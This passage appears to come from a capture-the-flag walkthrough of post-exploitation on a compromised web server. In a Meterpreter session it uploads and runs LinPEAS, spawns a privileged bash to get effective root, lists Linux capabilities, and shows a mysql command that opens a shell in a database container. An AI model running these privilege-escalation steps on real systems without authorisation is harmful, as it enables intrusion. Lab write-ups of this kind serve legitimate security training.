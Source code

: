 LinPEAS can also enumerate docker containers. So it could also be helpful to run the script on the system:
```
meterpreter > upload ../../tools/linpeas.sh
[*] Uploading  : /home/kali/Desktop/tools/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 828.52 KiB (0.0%): /home/kali/Desktop/tools/linpeas.sh -> linpeas.sh
[*] Completed  : /home/kali/Desktop/tools/linpeas.sh -> linpeas.sh
meterpreter > shell
Process 10689 created.
Channel 4 created.
ls -al lin*
-rw-rw-r-- 1 www-data www-data   3495 Aug 14  2022 link.php
-rw-rw-r-- 1 www-data www-data  21889 Aug 14  2022 links.php
-rw-r--r-- 1 www-data www-data 848400 Sep 18 20:49 linpeas.sh
/bash -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
pwd
/var/www/html
chmod 755 linpeas.sh

./linpeas.sh > linpeas.txt
```

Taking a look on the capabilities could also be an interesting point:
```
getcap -r / 2>/dev/null


capsh --print
Current: cap_chown,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_audit_write,cap_setfcap=eip
Bounding set =cap_chown,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_audit_write,cap_setfcap
Ambient set =
Current IAB: cap_chown,!cap_dac_override,!cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,!cap_linux_immutable,cap_net_bind_service,!cap_net_broadcast,!cap_net_admin,cap_net_raw,!cap_ipc_lock,!cap_ipc_owner,!cap_sys_module,!cap_sys_rawio,cap_sys_chroot,!cap_sys_ptrace,!cap_sys_pacct,!cap_sys_admin,!cap_sys_boot,!cap_sys_nice,!cap_sys_resource,!cap_sys_time,!cap_sys_tty_config,!cap_mknod,!cap_lease,cap_audit_write,!cap_audit_control,cap_setfcap,!cap_mac_override,!cap_mac_admin,!cap_syslog,!cap_wake_alarm,!cap_block_suspend,!cap_audit_read
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root) euid=0(root)
gid=0(root)
groups=33(www-data)
Guessed mode: UNCERTAIN (0)
```

### MySQL Server
With a command like `mysql --host=db --user=root --password=root cacti -e 'system /bin/bash -p'` we can also access the system itself. It seems like another docker container, but this is not interesting for us.
